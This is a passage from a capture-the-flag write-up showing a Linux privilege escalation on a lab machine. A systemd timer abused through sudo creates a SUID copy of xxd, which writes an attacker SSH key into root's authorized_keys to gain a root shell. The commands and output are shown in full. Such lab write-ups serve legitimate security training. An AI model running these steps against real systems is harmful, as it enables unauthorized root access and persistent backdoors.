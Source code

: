 So, we can simply add the missing value to the unit file to resolve the error.

```console
comte@cheesectf:~$ nano /etc/systemd/system/exploit.timer
comte@cheesectf:~$ cat /etc/systemd/system/exploit.timer
[Unit]
Description=Exploit Timer

[Timer]
OnBootSec=5s

[Install]
WantedBy=timers.target
```

Now, after reloading the configuration and starting the timer manually once more, we see that it successfully triggers the `exploit.service` and creates the `SUID` binary as expected.

```console
comte@cheesectf:~$ sudo /bin/systemctl daemon-reload
comte@cheesectf:~$ sudo /bin/systemctl start exploit.timer
comte@cheesectf:~$ systemctl status exploit.timer
● exploit.timer - Exploit Timer
     Loaded: loaded (/etc/systemd/system/exploit.timer; disabled; vendor preset: enabled)
     Active: active (elapsed) since Wed 2024-09-25 02:41:41 UTC; 4s ago
    Trigger: n/a
   Triggers: ● exploit.service
comte@cheesectf:~$ ls -la /opt
total 28
drwxr-xr-x  2 root root  4096 Sep 25 02:41 .
drwxr-xr-x 19 root root  4096 Sep 27  2023 ..
-rwsr-sr-x  1 root root 18712 Sep 25 02:41 xxd
```

Checking the [GTFObins](https://gtfobins.github.io/gtfobins/xxd/) page for the `xxd` binary, we see that it can be used for writing to files.

We can leverage this to add an SSH key for the `root` user.

```console
comte@cheesectf:~$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMh5/bXQHhNglSUiAYM7seONoiiQB7hVAr7HeeDaEIF0 kali@kali' | xxd | /opt/xxd -r - /root/.ssh/authorized_keys
```
{: .wrap }

Now, using the same key as before, we can SSH into the system and obtain a shell as the `root` user, allowing us to read the root flag.

```console
$ ssh -i id_ed25519 root@10.10.184.98
...
root@cheesectf:~# id
uid=0(root) gid=0(root) groups=0(root)
root@cheesectf:~# wc -c root.txt
321 root.txt
```

<style>
.center img {        
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}
</style>
